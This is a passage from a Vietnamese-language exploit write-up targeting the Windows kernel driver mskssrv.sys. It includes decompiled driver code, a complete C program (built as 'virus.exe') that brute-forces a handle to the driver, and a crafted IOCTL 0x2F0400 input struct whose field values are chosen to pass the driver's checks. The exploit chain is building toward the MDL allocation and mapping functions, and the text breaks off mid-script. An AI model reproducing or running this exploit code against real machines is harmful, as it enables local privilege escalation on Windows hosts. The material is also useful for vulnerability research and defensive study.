        FileW = CreateFileW(path_to_device, 0xC0000000, 0, 0, 3u, 0x80u, 0);
      //...
  }
  ```
  
  Với snippet trên, ta có thể bóc tách ra được 3 phần chính cần lưu ý:
  
  ```c
  CM_Get_Device_Interface_List_SizeW(
      &pulLen,
      &GUID_3c0d501a_140b_11d1_b40f_00a0c9223196,  // ← key!
      0,
      0
  );
  ```
  
  - GUID `{3c0d501a-140b-11d1-b40f-00a0c9223196}` chính xác là **Device Interface GUID** mà `mskssrv.sys` đăng ký khi khởi tạo.
  
  ```c
  CM_Get_Device_Interface_ListW(
      &GUID_3c0d501a_140b_11d1_b40f_00a0c9223196,
      0,
      cur_device_path,   // ← buffer nhận Device Path
      pulLen,
      0
  );
  ```
  
  - `CM_Get_Device_Interface_ListW` thực hiện  truy vấn Windows PnP Manager để lấy Device Path thực tế tương ứng với GUID. Path trả về là chuỗi dynamic thay đổi theo hardware instance. Đây cũng là lý do khi exploit, ta sẽ cần phải gọi API này tại runtime thay vì dùng path cố định.
  
  ```c
  FileW = CreateFileW(
      path_to_device,   // path lấy từ bước trên
      0xC0000000,       // GENERIC_READ | GENERIC_WRITE
      0,                // no sharing
      0,                // default security
      3u,               // OPEN_EXISTING
      0x80u,            // FILE_ATTRIBUTE_NORMAL
      0
  );
  *a1 = FileW;          // ← trả Handle về cho caller
  ```
  
  - `CreateFileW()` là hàm thực hiện mở Handle đến Driver, sau đó Handle sẽ được trả về cho caller và đây là Handle mà toàn bộ các `IOCTL` tiếp theo sẽ dùng để giao tiếp với `mskssrv.sys`.
  
Vậy giờ ta đã rõ cách mà Device Path được thiết lập, ta đặt Breakpoint tại ngay lúc `CreateFileW()` được gọi và xem Device Path là tham số tại thanh ghi `rcx` :


Vậy ta đã có Device Path của `mskssrv.sys` là: 

`\\?\ROOT#SYSTEM#0000#{3c0d501a-140b-11d1-b40f-00a0c9223196}\{96E080C7-143C-11D1-B40F-00A0C9223196}&{3C0D501A-140B-11D1-B40F-00A0C9223196}`

Với Path này, script khai thác của ta hoàn toàn có thể dùng như sau để lấy Handle và khởi tạo khai thác:

```c
LPCWSTR DevicePath = L"\\?\ROOT#SYSTEM#0000#{3c0d501a-140b-11d1-b40f-00a0c9223196}\{96E080C7-143C-11D1-B40F-00A0C9223196}&{3C0D501A-140B-11D1-B40F-00A0C9223196"
HANDLE DriverHandle = CreateFileW(
      DevicePath,
      ...
      )
```

Đó là cách hardcore điển hình và ta phải lấy bằng tay và tự paste vào script. Để tiện lợi hơn, ta có cách khác để tự động lấy path và mở handle đến Driver trong quá trình script chạy, đó là mô phỏng lại flow lấy handle đến Driver của `frameserver.dll` .
  
Ta có worlflow tổng thể cùng một số khai niệm liên quan:
    
### Workflow
---

Tổng quan, ta sẽ thực hiện các tác vụ sau để lấy được Driver Handle:


1. Lấy **Interface class GUID**  đã được define trước trong **ks.h**.

2. Gọi **`CM_Get_Device_Interface_List_SizeW()`** với tham số truyền vào là **GUID v**à một biến **ListSize** được khai báo ****để hỏi cần buffer bao nhiêu **WCHAR**.

3. Cấp phát **InterfaceList** với **ListSize** .

4. Gọi **`CM_Get_Device_Interface_ListW()`** với tham số truyền vào là **GUID**,  **InterfaceList** vừa được khởi tạo để chứa danh sách **Device Path** và **ListSize** để lấy danh sách các **Device Path** thuộc **Interface class GUID** hiện tại.

5. Duyệt từng **DevicePath** và tiến hành mở handle bằng **`CreateFileW()`** với **Path** với flag **OPEN_EXISTING**.

6. Kiểm tra với mỗi lần **`CreateFileW()`** sẽ kiểm tra xem có nhận về một handle không nếu như không nhận được ****(nhận về **NULL**) ****thì sẽ tiếp tục duyệt cho đến khi nhận về handle.

7. Dùng handle đó để giao tiếp tiếp với `mskssrv.sys` bằng `IOCTL / FsControl`.
    
### PnP Device Management Principle
---

#### General Knowledge

Một máy tính bình thường sẽ có nhiều các thiết bị ví dụ như: Camera, Webcam, Microphone, Bluetooth, … và các thiết bị được kết nối với máy tính này thường sẽ do một Driver quản lý và vì vậy, bên trong Kernel, Driver có thể tạo ra nhiều Object như:

```c
\Device\Afd
\Device\ConDrv
\Device\HarddiskVolume1

\Driver\fltmgr
\Driver\Tcpip
\Driver\Ntfs
...
```

Vậy nếu Usermode thực hiện lưu trữ các đường dẫn đến thiết bị này một cách tĩnh như thế thì sẽ dẫn đến các vấn đề như:

- Tên device object có thể thay đổi sau mỗi lần khởi động máy tính.
- Máy tính A chỉ có một webcam tích hợp (`\Device\Video0`). Nhưng máy tính B có thể cắm thêm một camera rời cho góc rộng (`\Device\Video1`).
- Driver version khác nhau có thể tạo path khác nhau.
- Thiết bị cắm/rút liên tục, hệ điều hành phải liên tục tạo mới và hủy bỏ các Device Object ngay trong lúc máy tính đang chạy (runtime).
- Một loại thiết bị có thể đến từ nhiều hãng khác nhau.

Vì vậy, `Interface Class GUID` được Windows sử dụng để đưa vấn đề truy xuất Driver từ câu hỏi như **“cho tôi Driver tại Path X”** thành **“cho tôi danh sách các Driver thuộc loại Y”.**

#### What are Interface Class GUIDs ?

**`Interface Class GUID`** là một mã GUID đại diện cho một loại Interface mà Driver expose ra cho User-mode hoặc Driver khác dùng. Nó không nhất thiết đại diện cho một thiết bị vật lý cụ thể mà nó đại diện cho một nhóm Interface cùng loại.

Ví dụ như GUID của Driver `mskssrv.sys` là:

```c
{3c0d501a-140b-11d1-b40f-00a0c9223196}
```

### Windows PnP Manager workflow
---

**`PnP Manager`** thuộc Kernel-mode và là thành phần quản lý các thiết bị Plug and Play có các nhiệm vụ chính:

1. Phát hiện thiết bị mới.
2. Gán Driver phù hợp.
3. Tạo Device node trong cây thiết bị.
4. Quản lý trạng thái Start/Stop/Remove.
5. Quản lý Registry liên quan đến Device.
6. Quản lý Device Interface được Driver đăng ký.

Khi một thiết bị thuộc loại **PnP** xuất hiện, ví dụ như Camera USB được cắm vào, ta có workflow đơn giản như sau:

7. Hardware được kết nối đến máy tính.
8. Bus Driver phát hiện thiết bị và báo về PnP Manager.
9. PnP Manager tìm kiếm Driver phù hợp để quản lý thiết bị mới.
10. Driver được load và tiến hành khởi tạo Device Object cho thiết bị.
11. Driver đăng kí Device Interface.
12. PnP Manager tạo Registry entry cho Interface mới này.
13. User-mode truy vấn đến Registry để lấy Device Path bằng **Configuration Manager API(CM_*)** hoặc **Setup API (SetupDi*)** và tạo handle đến Driver.

Trong quá trình, khi driver đăng ký Interface Windows sẽ lưu thông tin đó vào Registry dưới dạng:

```c
HKLM\SYSTEM\CurrentControlSet\Control\DeviceClasses\{InterfaceClassGuid}\...
```

Bên trong Registry này sẽ có các entry đại diện cho từng Device Instance:


### Configuration Manager API
---

Với workflow hiện tại, ta sử dụng **Configuration Manager API (** `cfgmgr32.dll` ) 2 hàm `CM_Get_Device_Interface_List_SizeW` và `CM_Get_Device_Interface_ListW` .

#### CM_Get_Device_Interface_ListW()


Hàm được được sử dụng để lấy danh sách các Device Interface Path thuộc GUID được chỉ định. 

```c
CMAPI CONFIGRET CM_Get_Device_Interface_ListW(
  [in]           LPGUID      InterfaceClassGuid,
  [in, optional] DEVINSTID_W pDeviceID,
  [out]          PZZWSTR     Buffer,
  [in]           ULONG       BufferLen,
  [in]           ULONG       ulFlags
);
```

Kết quả trả về là một List các WCHAR string:

```c
\\?\ROOT#SYSTEM#0000#{3c0d501a-...}
\\?\USB#VID_1234&PID_5678#...#{3c0d501a-...}
...
```

Và List trả về được lưu trong vùng nhớ lại con trỏ `Buffer` .

#### CM_Get_Device_Interface_List_SizeW()

Hàm được sử dụng để lấy Size của List Device Interface Path. Sau đó, size này được sử dụng để cấp phát một vùng bộ nhớ đủ rộng để chứa toàn bộ List Device Interface Path này vào.

```c
CMAPI CONFIGRET CM_Get_Device_Interface_List_SizeW(
  [out]          PULONG      pulLen,
  [in]           LPGUID      InterfaceClassGuid,
  [in, optional] DEVINSTID_A pDeviceID,
  [in]           ULONG       ulFlags
);
```

Size được trả về trong `pullen`  là số WCHAR string cần được cấp phát. vậy List Size sẽ là:

```c
ListSize = sizeof(WCHAR) * pullen
```

Ta kết hợp sử dụng 2 hàm này sẽ lấy được toàn bộ List Device Interface Path và việc tiếp theo là duyệt trong List này để tìm ra Device Path thật sự của Driver mục tiêu.

Một lưu ý đối với 2 thao tác này là `Flags` . Ta có 2 flag cần lưu ý:

- `CM_GET_DEVICE_INTERFACE_LIST_PRESENT    = 0x0` :Chỉ lấy các Device đang chạy (ACTIVE). (Khuyến khích)
- `CM_GET_DEVICE_INTERFACE_LIST_ALL_DEVICES = 0x1` :Lấy tất cả kể cả Device đã bị remove.

### Handle Finding Method
---

Sau khi đã lấy được List Device Interface Path, ta sẽ tìm duyệt theo phương pháp là Bruteforce Handle Creation với `CreateFileW()` .

Danh sách gồm các chuỗi WCHAR path và được ngăn cách nhau bằng một byte NULL

```c
"DeviceInterfacePath1\0DeviceInterfacePath2"
```

Vậy nên ta sẽ duyệt từng chuỗi trong danh sách đến khi gặp byte NULL. Sau đó tiến hành mở handle với Path đó bằng `CreateFileW()` với cờ **OPEN_EXISTING** được bật:

```c
hDriver = CreateFileW(
                CurrentInterface,
                GENERIC_READ | GENERIC_WRITE,
                FILE_SHARE_READ | FILE_SHARE_WRITE,
                NULL,
                OPEN_EXISTING,
                FILE_ATTRIBUTE_NORMAL,
                NULL
            );
```

Nếu như có handle được trả về thì ta đã hoàn thành việc lấy handle của Driver mục tiêu (ở đây là `mskssrv.sys` ). Nếu trả về NULL ta tiến hành duyệt tiếp cho đến khi lấy được handle.

Thực tế hoàn toàn khả thi việc ta nhận được nhiều hơn 1 path khi lấy List Device Interface Path. 

Một số lí do cho điều này:

1. **Ghost Devices (Thiết bị "ma"):** Đôi khi một thiết bị hoặc Driver ảo được cài đặt, sau đó bị lỗi hoặc gỡ bỏ không sạch và khóa Registry của nó vẫn còn nằm lại (gọi là ghost/orphan device). Hàm `CM_Get_Device_Interface_ListW` sẽ bốc cả những path này lên, mặc dù Driver thực tế không còn chạy.
2. **Nhiều Instance:** Hệ điều hành có thể tạo ra nhiều instance của proxy (ví dụ: `ROOT#SYSTEM#0000`, `ROOT#SYSTEM#0001`...) để phục vụ các luồng streaming độc lập.
3. **Phần mềm bên thứ 3:** Một số phần mềm ảo hóa âm thanh/video (kiểu như OBS Virtual Camera, VB-Audio Cable...) có thể đăng ký chung class GUID này.

Vậy làm sao ta có thể lọc đúng path của `mskssrv.sys`?

Thực  tế, path nào của các thiết bị "ma" hoặc không có quyền truy cập, `CreateFileW()` sẽ trả về lỗi `INVALID_HANDLE_VALUE`. Path nào đang thực sự được `mskssrv.sys` quản lý và cho phép User-mode kết nối, hệ điều hành sẽ trả về một handle ****hợp lệ.

Vì vậy, các Bruteforce này khả thi để thiết lập kết nối đến `mskssrv.sys` .

### Script
---

```c
// gcc.exe -Wall -Wextra -O0 -g3 -o .\virus.exe .\virus.c -lcfgmgr32
#include <windows.h>
#include <stdio.h>
#include <cfgmgr32.h>

PWCHAR InterfaceListBuffer = NULL;
ULONG LengthOfInterfaceList = 0;
GUID ClassGuid = {
        0x3c0d501a,
        0x140b,
        0x11d1,
        { 0xb4, 0x0f, 0x00, 0xa0, 0xc9, 0x22, 0x31, 0x96 }
    };

void PrintDeviceInterfaceList()
{
    printf("Device Interface List:\n");
    PWCHAR CurrentInterface = InterfaceListBuffer;
    while (*CurrentInterface != L'\0') {
        wprintf(L"  %ls\n", CurrentInterface);
        CurrentInterface += wcslen(CurrentInterface) + 1;
    }
}

void GetDeviceInterfaceList()
{
    CONFIGRET SizeResult = 
    CM_Get_Device_Interface_List_SizeW(&LengthOfInterfaceList,
                                        &ClassGuid,
                                        NULL,
                                        CM_GET_DEVICE_INTERFACE_LIST_ALL_DEVICES);
    if (SizeResult != CR_SUCCESS) {
        fprintf(stderr, "Failed to get the size of the device interface list: %lu\n", SizeResult);
    }

    InterfaceListBuffer = (PWCHAR)malloc(LengthOfInterfaceList * sizeof(WCHAR));
    if (InterfaceListBuffer == NULL) {
        fprintf(stderr, "Failed to allocate memory for the device interface list buffer.\n");
    }
    
    CONFIGRET GetResult = 
    CM_Get_Device_Interface_ListW(&ClassGuid,
                                    NULL,
                                    InterfaceListBuffer,
                                    LengthOfInterfaceList,
                                    CM_GET_DEVICE_INTERFACE_LIST_ALL_DEVICES);
    if (GetResult != CR_SUCCESS) {
        fprintf(stderr, "Failed to get the length of the device interface list: %lu\n", GetResult);
        free(InterfaceListBuffer);
        InterfaceListBuffer = NULL;
    }
    PrintDeviceInterfaceList();
}

HANDLE GetMSKSSRV_SYSHandle()
{
    wchar_t UserInputPath[MAX_PATH];
    int choice;
    printf("[*] Hardcore mode or not ?\n 1. Frameserver Similar Mode (Default)\n 0. Hardcore Mode (User Input)\n");
    scanf("%d", &choice);
    if (choice == 0) {
        printf("[*] Hardcore way ! Please enter the Device Path to mskssrv.sys: ");
        wscanf_s(L"%ls", UserInputPath, (unsigned)_countof(UserInputPath));
        return CreateFileW(
            UserInputPath,
            GENERIC_READ | GENERIC_WRITE,
            FILE_SHARE_READ | FILE_SHARE_WRITE,
            NULL,
            OPEN_EXISTING,
            FILE_ATTRIBUTE_NORMAL,
            NULL
        );
    } else {
        GetDeviceInterfaceList();
        PWCHAR CurrentInterface = InterfaceListBuffer;
        HANDLE hDriver = INVALID_HANDLE_VALUE;

        while (*CurrentInterface != L'\0') {
            wprintf(L"[*] Trying path: %ls\n", CurrentInterface);

            hDriver = CreateFileW(
                CurrentInterface,
                GENERIC_READ | GENERIC_WRITE,
                FILE_SHARE_READ | FILE_SHARE_WRITE,
                NULL,
                OPEN_EXISTING,
                FILE_ATTRIBUTE_NORMAL,
                NULL
            );

            if (hDriver != INVALID_HANDLE_VALUE) {
                printf("[+] BINGO! Successfully opened a handle to mskssrv.sys\n");
                break;
            } else {
                printf("[-] Failed to open. Error: %lu\n", GetLastError());
            }

            CurrentInterface += wcslen(CurrentInterface) + 1;
        }

        if (hDriver == INVALID_HANDLE_VALUE) {
            printf("[!] Could not get a valid handle to the vulnerable driver. Exploit abort.\n");
            return NULL;
        } else {
            return hDriver;
        }
    }
}

int main()
{
    GetDeviceInterfaceList();
    HANDLE TargetHandle = GetMSKSSRV_SYSHandle();
    if (TargetHandle != NULL) {
        printf("[*] Closing the handle to mskssrv.sys");
        CloseHandle(TargetHandle);
    }
    return 0;
}
```

Kết quả mong muốn (chạy trên máy mục tiêu):


    		
    

## Step 2: Global Rendezvous Server Creation

Ta có worlflow tổng thể cùng một số khai niệm liên quan (**Shift + Scroll** để lướt qua được các Tab phía sau):

### Workflow
---

Mục tiêu của ta là gọi đến các hàm trong Driver mục tiêu (ở đây là `mskssrv.sys` ) dưới danh nghĩa là một cuộc giao dịch Frame và các hàm cần gọi nằm ở các path:

- Path `FsAllocAndLockMdl()` : `SrvDispatchIoControl()` → `FSRendezvousServer::PublishTx()` → `FSStreamReg::PublishTx()` → `FSFrameMdl::AllocateMdl()` → `FsAllocAndLockMdl()` .
- Path `FsMapLockedPages()` : `SrvDispatchIoControl` → `FSRendezvousServer::ConsumeTx()` → `FSStreamReg::ConsumeTx()` → `FsMapLockedPages()` .

Nên ta cần thiết phải thiết lập trước hết là `GlobalRendezvousServer` để setup một global context cho các thao tác giao tiếp rồi sau đó là thực hiện các IOCTL để khởi Stream với `GlobalRendezvousServer` nhằm đảm bảo ngữ cảnh đầy đủ cho việc sử dụng và gọi đến các hàm mục tiêu ở `mskssrv.sys` diễn ra được bình thường.

Trích một đoạn code từ `SrvDispatchIoControl()` :

```c
NTSTATUS __fastcall SrvDispatchIoControl(__int64 a1, IRP *cur_irp)
{
// ...
  if ( !v7 )
  {
    CurRendezvousObject = 0;
    KeWaitForSingleObject(&Mutex, Executive, 0, 0, 0);
    Get_Status = FSGetRendezvousServer(&CurRendezvousObject);
    if ( Get_Status >= 0 )
    {
      Status = FSRendezvousServer::PublishTx(CurRendezvousObject, cur_irp);
      goto LABEL_44;
    }
    goto LABEL_45;
  }
 // ...
 LABEL_45:
  cur_irp->IoStatus.Status = Get_Status;
  IofCompleteRequest(cur_irp, 0);
  return Get_Status;
}
```

Ta thấy rằng hàm `FSGetRendezvousServer()` luôn được gọi với các thao tác trong `DispatchIoControl` Routine để lấy `GlobalRendezvousServer` rồi sau đó sử dụng nó trong các thao tác bên trong.

```c
NTSTATUS __fastcall FSGetRendezvousServer(struct FSRendezvousServer **a1)
{
  volatile signed __int32 *v1; // rax
  NTSTATUS return_status; // ebx

  v1 = (volatile signed __int32 *)qword_1C0004010;
  return_status = 0;
  if ( qword_1C0004010 )
  {
    *a1 = qword_1C0004010;
    _InterlockedIncrement(v1);
  }
  else
  {
    return_status = STATUS_INVALID_DEVICE_REQUEST;
  }
  KeReleaseMutex(&Mutex, 0);
  return return_status;
}
```

Nếu không tìm thấy `GlobalRendezvousServer` , hàm sẽ trả về mã lỗi `0xC0000010(**STATUS_INVALID_DEVICE_REQUEST)` .**

### Rendezvous
---

**Rendezvous** trong `mskssrv.sys` là cơ chế **Producer-Consumer meeting point, là** nơi **Producer** (các camera driver) và **Consumer** (frameserver) gặp nhau để trao đổi Frame buffer, chia sẻ trạng thái stream, buffer, MDL, event, queue… Nếu không có cơ chế này thì Camera driver gửi Frame xuống nhưng frameserver không biết nhận ở đâu, và frameserver muốn lấy Frame nhưng kernel không biết stream nào đang được nói tới.

Hai bên không thể giao tiếp trực tiếp lung tung và chúng cần một Object chung trong Kernel để đồng bộ trạng thái. Object đó có thể được hiểu là `Global Rendezvous Server Object` .

### Rendezvous Workflow
---

Ta có workflow đơn giản:


Ngắn gọn với workflow trên, mỗi khi ta mở một handle thì tương ứng sẽ có một **FILE_OBJECT** được tạo lập dưới Kernel-mode và trường `FsContext2` của nó sẽ chứa con trỏ đến một  `FsContextRegObject` hoặc `FSStreamRegObject` để thực hiện các giao tiếp giữa `Frameserver` ở User-mode và Camera ở Kernel-mode. 

Một `FsContextRegObject` được tạo khi ta sử dụng `IOCTL_INITIALIZE_GLOBAL/CONTEXT_RENDEZVOUS 0x2f0400` và truyền xuống Driver một struct `FsContextReg` . Sau khi khởi tạo, struct sẽ được lưu ở danh sách các `ContextObject` trong một đối tượng duy nhất của toàn Driver là `RedezvousServer`  và được gán vào `FsContext2` của handle gọi IOCTL này.

Tương tự, một `FSStreamRegObject` được tạo khi ta sử dụng `IOCTL_INITIALIZE_STREAM 0x2f0404` và truyền xuống Driver một struct `FsStreamRegInfo` .Sau khi khởi tạo, struct sẽ được lưu ở danh sách các `StreamObject` trong `RedezvousServer` và được gán vào `FsContext2` của handle gọi IOCTL này.

Khi mới khởi tạo, con trỏ này được set NULL và sẽ được set là địa chỉ đến `FsContextRegObject/FSStreamRegObject` khi thực hiện khởi tạo Global Context/Stream hay đăng kí Stream. Các thao tác này không được lặp lại trong suốt quá trình sử dụng (Check reused same handle theo sơ đồ).

Và với **FILE_OBJECT** và trường `FsContext2` trỏ đến `FsContextRegObject/FSStreamRegObject` thì các thao tác IOCTL gọi đến các hàm `PublishTx` hay `ConsumeTx` để tương tác với các Stream được diễn ra bình thường.

Tóm lại:

- Với `InitializeContext`, `InitializeStream`, `RegisterStream` yêu cầu `FsContext2 == NULL` trước khi gọi.
- Với `PublishTx`, `ConsumeTx`, `DrainTx`: yêu cầu `FsContext2 != NULL` để Driver lấy Object đã được set.

### Initialization Workflow
---

Với việc khởi tạo `GlobalRendezvousServer` , trong `SrvDispatchIoControl` ta có code snippet này:
    
  ```c
  NTSTATUS __fastcall SrvDispatchIoControl(_DRIVER_OBJECT *Current_Driver, IRP *cur_irp)
  {
    //...
    Offset_IOCTL = LowPart - 0x2F0003;
    if ( !Offset_IOCTL )
    {
      v12 = KsPropertyHandler(cur_irp, 1u, &PropertySet);
      goto LABEL_19;
    }
    IsInitializeContextRendezvous = Offset_IOCTL - 0x3FD;// IOCTL_INITIALIZE_GLOBAL_RENDEZVOUS 0x2f0400
    if ( !IsInitializeContextRendezvous )
    {
      v12 = FSInitializeContextRendezvous(cur_irp);
      goto LABEL_19;
    }
    //...
    }
  ```
    

Thông qua đoạn code trên, ta xác định được IOCTL code cho thao tác khởi tạo này là `0x2f0400` . Xem tiếp hàm bên trong `FSInitializeContextRendezvous` :

  ```c
  NTSTATUS __fastcall FSInitializeContextRendezvous(struct _IRP *cur_irp)
  {
    _FSStreamRegInfo *cur_rendezvous_object; // rdi
    enum _POOL_TYPE POOL_TYPE; // edx
    _FSStreamRegInfo *Rendezvous_Object_Buffer; // rbx
    _FSStreamRegInfo *New_Rendezvous_Object; // rax
    ULONG64 *p_CurrentProcessId; // rax
    NTSTATUS v7; // ebx
    unsigned int v8; // edx
  
    cur_rendezvous_object = 0;
    KeWaitForSingleObject(&Mutex, Executive, 0, 0, 0);
    Rendezvous_Object_Buffer = qword_1C0004010;
    if ( qword_1C0004010 )
      goto LABEL_8;
    New_Rendezvous_Object = (_FSStreamRegInfo *)operator new(0xA0u, POOL_TYPE, 0x73767A52u);
    Rendezvous_Object_Buffer = New_Rendezvous_Object;
    if ( New_Rendezvous_Object )
    {
      New_Rendezvous_Object[1].metadata3 = 0;
      LODWORD(New_Rendezvous_Object[1].metadata4) = 0;
      New_Rendezvous_Object[2].CurrentProcessId = 0;
      LODWORD(New_Rendezvous_Object[2].metadata2) = 0;
      New_Rendezvous_Object[1].ObjectHandle = &FSRegObjectList::`vftable';
      New_Rendezvous_Object[1].metadata1 = (ULONG64)&FSList::`vftable';
      LODWORD(New_Rendezvous_Object->ObjectHandle) = 1;
      p_CurrentProcessId = &New_Rendezvous_Object[1].CurrentProcessId;
      Rendezvous_Object_Buffer[1].flag1 = (ULONG64)&FSRegObjectList::`vftable';
      Rendezvous_Object_Buffer[1].flag2 = (ULONG64)&FSList::`vftable';
      p_CurrentProcessId[1] = (ULONG64)p_CurrentProcessId;
      *p_CurrentProcessId = (ULONG64)p_CurrentProcessId;
      Rendezvous_Object_Buffer[2].metadata1 = (ULONG64)&Rendezvous_Object_Buffer[2];
      Rendezvous_Object_Buffer[2].ObjectHandle = &Rendezvous_Object_Buffer[2];
      KeInitializeMutex((PRKMUTEX)&Rendezvous_Object_Buffer->metadata1, 0);
    }
    else
    {
      Rendezvous_Object_Buffer = 0;
    }
    qword_1C0004010 = Rendezvous_Object_Buffer;
    if ( s_fsTraceEnable )
    {
      DbgPrintEx(0x1Du, 3u, "FSGetRendezvoudServer++ (new server=%p)\n", Rendezvous_Object_Buffer);
      Rendezvous_Object_Buffer = qword_1C0004010;
    }
    if ( Rendezvous_Object_Buffer )
    {
  LABEL_8:
      cur_rendezvous_object = Rendezvous_Object_Buffer;
      _InterlockedIncrement((volatile signed __int32 *)Rendezvous_Object_Buffer);
    }
    KeReleaseMutex(&Mutex, 0);
    if ( !cur_rendezvous_object )
      return 0xC000009A;
    v7 = FSRendezvousServer::InitializeContext(cur_rendezvous_object, cur_irp);
    FSRendezvousServer::Release(cur_rendezvous_object, v8);
    return v7;
  }
  ```
    

Hàm sẽ thực hiện các thao tác cấp phát bộ nhớ cho một `Global Rendezvous Server Object` mới và các setup sơ bộ rồi sau đó lại truyền vào hàm nội bộ `FSRendezvousServer::InitializeContext` đối tượng mới vừa được khởi tạo:
    
  ```c
  NTSTATUS __fastcall FSRendezvousServer::InitializeContext(_FSStreamRegInfo *this, struct _IRP *cur_irp)
  {
    struct _IO_STACK_LOCATION *CurrentStackLocation; // r14
    volatile signed __int32 *v3; // rbx
    char v4; // r15
    _FSStreamRegInfo *SystemBuffer; // rsi
    volatile signed __int32 *v7; // rax
    NTSTATUS return_status; // edi
    struct _EPROCESS *CurrentProcess; // rax
    int inited; // eax
    _FSStreamRegInfo *v11; // rdi
    _FSStreamRegInfo *v12; // rax
    _FSStreamRegInfo *v13; // rcx
  
    CurrentStackLocation = cur_irp->Tail.Overlay.CurrentStackLocation;
    v3 = 0;
    v4 = 0;
    if ( CurrentStackLocation->Parameters.Read.ByteOffset.LowPart != 0x2F0400
      || CurrentStackLocation->FileObject->FsContext2 )
    {
      return_status = STATUS_INVALID_DEVICE_REQUEST;
    }
    else
    {
      SystemBuffer = (_FSStreamRegInfo *)cur_irp->AssociatedIrp.MasterIrp;
      if ( !SystemBuffer || CurrentStackLocation->Parameters.Create.Options < 0x20 )
        return STATUS_INVALID_PARAMETER;
      v7 = (volatile signed __int32 *)operator new(0x78u, (enum _POOL_TYPE)cur_irp, 0x67657243u);
      v3 = v7;
      if ( v7 )
      {
        *((_DWORD *)v7 + 10) = 0;
        *((_DWORD *)v7 + 11) = 0;
        *((_QWORD *)v7 + 7) = 0;
        *((_QWORD *)v7 + 8) = 0;
        *((_QWORD *)v7 + 9) = 0;
        *((_QWORD *)v7 + 14) = 0;
        *((_DWORD *)v7 + 6) = 1;
        *((_QWORD *)v7 + 4) = v7;
        *((_DWORD *)v7 + 12) = 1;
        *((_DWORD *)v7 + 13) = 120;
        *(_QWORD *)v7 = &FSContextReg::`vftable';
        *((_OWORD *)v7 + 5) = 0;
        *((_OWORD *)v7 + 6) = 0;
      }
      else
      {
        v3 = 0;
      }
      if ( !v3 )
        return STATUS_INSUFFICIENT_RESOURCES;
      return_status = 0;
      if ( SystemBuffer->metadata1
        && ((__int64)SystemBuffer->ObjectHandle & 1) != 0
        && SystemBuffer->CurrentProcessId
        && !SystemBuffer->metadata2 )
      {
        CurrentProcess = IoGetCurrentProcess();
        inited = FSRegObject::SetInitProcess((FSRegObject *)v3, CurrentProcess);
        if ( inited >= 0 )
        {
          *((_DWORD *)v3 + 20) = 1;
          *((_QWORD *)v3 + 11) = SystemBuffer->metadata1;
          *((_QWORD *)v3 + 12) = SystemBuffer->CurrentProcessId;
          *((_DWORD *)v3 + 10) = 1;
        }
        else
        {
          return_status = inited;
        }
        if ( return_status >= 0 )
        {
          FSRendezvousServer::Lock(this);
          v11 = this + 2;
          v12 = (_FSStreamRegInfo *)this[2].ObjectHandle;
          if ( v12 != &this[2] )
            this[2].CurrentProcessId = (ULONG64)v12;
          while ( 1 )
          {
            v13 = (_FSStreamRegInfo *)this[2].CurrentProcessId;
            if ( !v13 || v11->ObjectHandle == v11 || v13 == v11 )
              break;
            if ( v13 != (_FSStreamRegInfo *)8
              && SystemBuffer->CurrentProcessId == v13[1].metadata2
              && (HANDLE)SystemBuffer->metadata1 == PsGetCurrentProcessId() )
            {
              v4 = 1;
              goto LABEL_29;
            }
            FSRegObjectList::MoveNext((FSRegObjectList *)&this[1].flag1);
          }
          FSRegObjectList::InsertTail((FSRegObjectList *)&this[1].flag1, (struct FSRegObject *)v3);
          CurrentStackLocation->FileObject->FsContext2 = (PVOID)v3;
          _InterlockedAdd(v3 + 6, 1u);
          v3 = 0;
  LABEL_29:
          KeReleaseMutex((PRKMUTEX)&this->metadata1, 0);
          return_status = v4 != 0 ? STATUS_INVALID_DEVICE_REQUEST : 0;
        }
      }
      else
      {
        return_status = STATUS_INVALID_PARAMETER;
      }
    }
    if ( v3 )
      (**(void (__fastcall ***)(volatile signed __int32 *, __int64))v3)(v3, 1);
    return return_status;
  }
  ```
    

Đầu tiên, hàm thực hiện kiểm tra IOCTL code có là `0x2F0400` hay không và `FsContext2`, sau đó tiến hành trích xuất `SystemBuffer` là một struct `FSContextReg` là struct chứa các thông tin liên quan đến ngữ cảnh giao tiếp mà ta gửi xuống. Sau đó thực hiện kiểm tra sơ bộ xem `SystemBuffer` có hợp lệ không:

```c
SystemBuffer = cur_irp->AssociatedIrp.MasterIrp;
if ( !SystemBuffer || CurrentStackLocation->Parameters.Create.Options < 0x20 )
  return STATUS_INVALID_PARAMETER;
```

Sau đó thực hiện các bước cấp phát đối tượng `FSContextReg` và setup các thông số cần thiết. Cuối cùng là bắt đầu trực tiếp gán các dữ liệu mà ta đưa xuống vào `FsContextRegObject` và lưu nó vào danh sách `ContextRegObject` của `Global Rendezvous Server` .Nhưng trước hết, nó thực hiện kiểm tra các thông số ta đưa xuống:

```c
if ( SystemBuffer->metadata1
  && ((__int64)SystemBuffer->ObjectHandle & 1) != 0
  && SystemBuffer->CurrentProcessId
  && !SystemBuffer->metadata2 )
{
```

Đây là lớp kiểm tra mà ta cần có một setup thỏa mãn các điều kiện, nếu không, hàm sẽ trực tiếp trả về `STATUS_INVALID_PARAMETER` theo nhánh else{}:

```c
else
{
  return_status = STATUS_INVALID_PARAMETER;
}
```

Vì vậy, sau quá trình reverse, ta có được struct như sau:

```c
typedef struct FSContextRegInput {
    ULONG64 offset0x0;
    ULONG64 CurrentProcessId;
    HANDLE  EventHandle;
    ULONG64 offset0x18;
    ULONG64 offset0x20;
    ULONG64 offset0x28;
    ULONG64 offset0x30;
    ULONG64 offset0x38;
} FSContextRegInput, *PFSContextRegInput;
```

Và ta sẽ setup các thông số như sau để bypass:

```c
StreamContext->offset0x0 = 0x5;
StreamContext->CurrentProcessId = (ULONG64)GetCurrentProcessId();
StreamContext->EventHandle = CreateEventW(NULL, FALSE, FALSE, NULL);
StreamContext->offset0x18 = 0;
StreamContext->offset0x20 = 0x20000;
StreamContext->offset0x38 = 0x50;
```

Cuối cùng là dùng IOCTL code `0x2F0400` để gửi nó xuống.

### Script
---

```c
#define IOCTL_INITIALIZE_GLOBAL_RENDEZVOUS 0x2f0400

typedef struct FSContextRegInput {
    ULONG64 offset0x0;
    ULONG64 CurrentProcessId;
    HANDLE  EventHandle;
    ULONG64 offset0x18;
    ULONG64 offset0x20;
    ULONG64 offset0x28;
    ULONG64 offset0x30;
    ULONG64 offset0x38;
} FSContextRegInput, *PFSContextRegInput;
// ...
BOOL SetUpGlobalContextRendezvousObject()
{
    // printf("[*] Setting up the global context rendezvous object.\n");
    if (ContextHandle == NULL || ContextHandle == INVALID_HANDLE_VALUE)
    {
        ContextHandle = GetDriverHandle();
    }
    PFSContextRegInput StreamContext =
